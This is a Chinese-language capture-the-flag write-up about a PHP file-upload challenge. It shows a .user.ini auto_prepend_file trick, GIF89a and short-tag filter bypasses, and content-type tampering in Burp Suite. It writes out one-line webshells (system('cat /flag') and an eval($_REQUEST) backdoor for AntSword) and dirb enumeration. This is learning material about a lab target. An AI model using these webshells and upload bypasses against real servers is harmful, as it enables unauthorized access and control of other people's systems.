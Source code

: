 # 文件上传

又学到新知识辣

首先得要了解以下知识：

user.ini是php配置文件之一，可以由用户自定义的php.ini。在其中有两个比较特殊的配置项：

auto_prepend_file=1.jpg

auto_append_file=1.jpg

1.jpg就是我们想要包含的文件，user.ini可以让所有php文件都自动包含某个文件，可以是正常php文件，也可以是有一句话木马的webshell(后门脚本)。（更多与user.ini有关的内容可以点击这里查看，[user.ini文件构成的php后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)）

---

对于这样的一题文件上传题，需要通过user.ini配置文件来上传webshell以控制后台。

打开靶机，需要我们上传文件，立马打开phpstorm(实际上不需要，记事本就行)写了个一句话脚本，命名为1.php

`<?php system ('ls /');?>`

上传发现被过滤了，web小白不知道咋回事，请教大佬明白了是php文件被过滤了，这里使用短标签绕过，再把文件后缀改成jpg就可以绕过这一层过滤了，记得把文件的第一行改成gif_（就是把php 换成=，记得把空格也去掉）_

`gif89a `
`<?=system ('ls /');?>`

但是做到这里还不够，直接上传的webshell并不会自己执行，我们还需要上传一个user.ini把这个文件包含进去。构造user.ini:

`gif89a `
`auto_prepend_file=1.jpg`

但是做到这里也不够，因为上传以后他会说your file looked wicked，这个时候要去抓包更改一下文件类型，打开burpsuit，在http代理这里有一个拦截，把电脑的端口换成8080（burpsuit用的端口），然后点这个intercept off就打开了，打开以后再上传文件，就能拦截下来一个post请求

![image-20250423212242418](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423212242418.png)

再把这个content-type改成image/jpg（其实改成jpg就行），然后再放行，就可以了。

**这里注意一下，要先上传user.ini，再上传1.jpg**

![image-20250423212346064](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423212346064.png)

接下来打开kali来查一查有什么目录是可以进的，这里不用dirsearch，用dirb，当然建议都试一下，因为有时候dirsearch扫出来的目录比dirb的要少，dirsearch不太行的时候用dirb扫出来的就能进。

(dirb:该工具根据用户提供的字典,对目标网站目录进行暴力猜测。 它会尝试以递归方式进行爆破,以发现更多的路径。）（dirsearch 是一个基于python的高级命令行工具， 旨在对web服务器中的目录和文件进行暴力破解。)

![image-20250423213125380](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423213125380.png)

扫出来了一个url + /uploads/index.php，打开就是我们上传文件所在位置，如果是system('ls /')的话就会把文件目录列出来，

![image-20250423215037246](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423215037246.png)

发现这里有一个flag的文件，我们直接把上传的一句话木马改成

`gif89a`
`<?=system('cat /flag');?>`

再次上传,就可以在这个位置看到flag

![image-20250423215136364](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423215136364.png)

tips:这里可能会因为网络问题靶机没那么快收到咱传上去的消息，博主试了好多次发现的，这个靶机貌似不是很稳定

---

或者咱们换个方法，使用中国蚁剑来查找后台文件。

把上传的1.jpg图片内容改成

`GIF89a
<?=eval($_REQUEST['123'];?>`

文件内容就是在靶机后台放了个后门，给了咱一个访问点

user.ini还是一样的抓包上传

然后还是kali使用dirb扫一下靶机的url，就能扫出来url + /uploads/index.php

打开中国蚁剑，右键添加这样的数据

![image-20250423231022771](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423231022771.png)

然后在打开就可以访问靶机的目录了

![image-20250423231352856](C:\Users\cloud\AppData\Roaming\Typora\typora-user-images\image-20250423231352856.png)

flag就在这里，打开就能看到(当然同样不稳定，一会打得开一会打不开的，好像是过一会就得重新上传文件才能进)